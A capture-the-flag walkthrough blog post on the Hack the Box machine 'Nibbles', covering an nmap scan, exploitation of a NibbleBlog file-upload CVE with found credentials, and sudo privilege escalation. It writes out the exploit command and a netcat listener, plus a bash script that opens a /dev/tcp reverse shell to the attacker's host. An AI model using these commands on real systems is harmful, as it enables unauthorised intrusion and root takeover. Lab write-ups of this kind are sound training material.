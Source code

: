 ```yaml
---
title: Nibbles - Hack the Box
date: 2024-10-13 12:07:03 -0400
categories: [Hack the Box]
tags: [Walkthrough]
image: /assets/Nibbles.png
---
```

---
title: 2024-10-12-Nibbles - Hack the Box
date: 2024-10-13 12:01:04 -0400
categories: [Hack the Box]
tags: [Walkthrough]
image: /assets/2024-10-12-Nibbles.png
---
![Image](/assets/Nibbles.png)

Nibbles is a very smooth box that runs close to HTB standards for easier machines... Thorough web enumeration and simple privilege escalation. Let's get it.
### Scan
```
└─# nmap -sV -sC --open -p- 10.10.10.75
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-09-09 20:19 EDT
Nmap scan report for 10.10.10.75
Host is up (0.13s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 c4:f8:ad:e8:f8:04:77:de:cf:15:0d:63:0a:18:7e:49 (RSA)
|   256 22:8f:b1:97:bf:0f:17:08:fc:7e:2c:8f:e9:77:3a:48 (ECDSA)
|_  256 e6:ac:27:a3:b5:a9:f1:12:3c:34:a5:5d:5b:eb:3d:e9 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: Apache/2.4.18 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 52.30 seconds

```

### Enumeration

This box has two connections on ports 22 and 80, running their respective services. You know how I feel about SSH, so we'll start with port 80.

##### 80 - NibbleBlog

![Image](/assets/Screenshot 2024-09-09 at 8.31.49 PM.png)

The landing page of the website doesn't give us much. However, when we take a closer look, we're given a bone. Using this newfound directory, we can feed feroxbuster (I know, no gobuster anymore) our parameters and get a lot of information.

![Image](/assets/Screenshot 2024-09-09 at 8.35.09 PM.png)

Moseying around some of these yields very valuable information, including usernames and versions. The kicker, though, comes from doing our research online.

![Image](/assets/Screenshot 2024-09-09 at 8.39.23 PM.png)

We find out about CVE-2015-6967, which allows us to upload unrestricted files to the server, and access via `content/private/plugins/my_image/image.php`. We also can find a python script built for this blog specifically, and even some credentials hanging around... (I'll take it!)

![Image](/assets/Screenshot 2024-09-09 at 8.56.20 PM.png)

### Initial Access

Downloading the script, we need to find a PHP reverse shell that we can couple with it, because the script will give us access to our payload through the server. I used: `/usr/share/laudanum/php/php-reverse-shell.php`. Once the parameters are configured with hosts and credentials, set up a wrapped listener and fire away.

`rlwrap nc -nlvp XXXX`

`exploit.py  -l http://10.10.10.75/nibbleblog/ --username admin --password nibbles --payload php-reverse-shell.php`

Once we have a shell, we need to stabilize it

![Image](/assets/Screenshot 2024-09-09 at 8.59.27 PM.png)

Then, we can navigate to the home directory for our flag.

`USER:2df045e9e5b920914459d4ae04491c9b`

### Privilege Escalation

Once in our shell and looking to move vertically, we can run `sudo -l` to get an idea of what we can and cannot do. As seen below, we've got access to the `monitor.sh` executable, which is great news for us.

![Image](/assets/Screenshot 2024-09-09 at 9.00.01 PM.png)

All that needs to be done is overwrite the original script with a Bash one-liner pointing to another listener that we have set up on our Kali box.

The directory is hidden behind a zip file, so unzip.

![Image](/assets/Screenshot 2024-09-09 at 9.04.05 PM.png)

Then, rewrite the script using the line below. `nano` and `vim` were being very touchy, so I just used `echo`.

```
echo -e '#!/bin/bash

# Define the IP address and port of the remote listener
REMOTE_IP="10.10.14.3" # Replace with your IP
REMOTE_PORT="9001"        # Replace with your desired port

# Ensure the script is running with root privileges
if [[ "$EUID" -ne 0 ]]; then
  echo "Please run this script as root."
  exit 1
fi

# Attempt to open a reverse shell using netcat
echo "Opening a reverse shell to $REMOTE_IP:$REMOTE_PORT..."
/bin/bash -i >& /dev/tcp/$REMOTE_IP/$REMOTE_PORT 0>&1' > monitor.sh
```

Once you've popped the root shell, `cd` to the directory and grab your flag.

`ROOT:1b7cbd064fd08f66523ddc338bf1b985`

#easy #linux #manual 
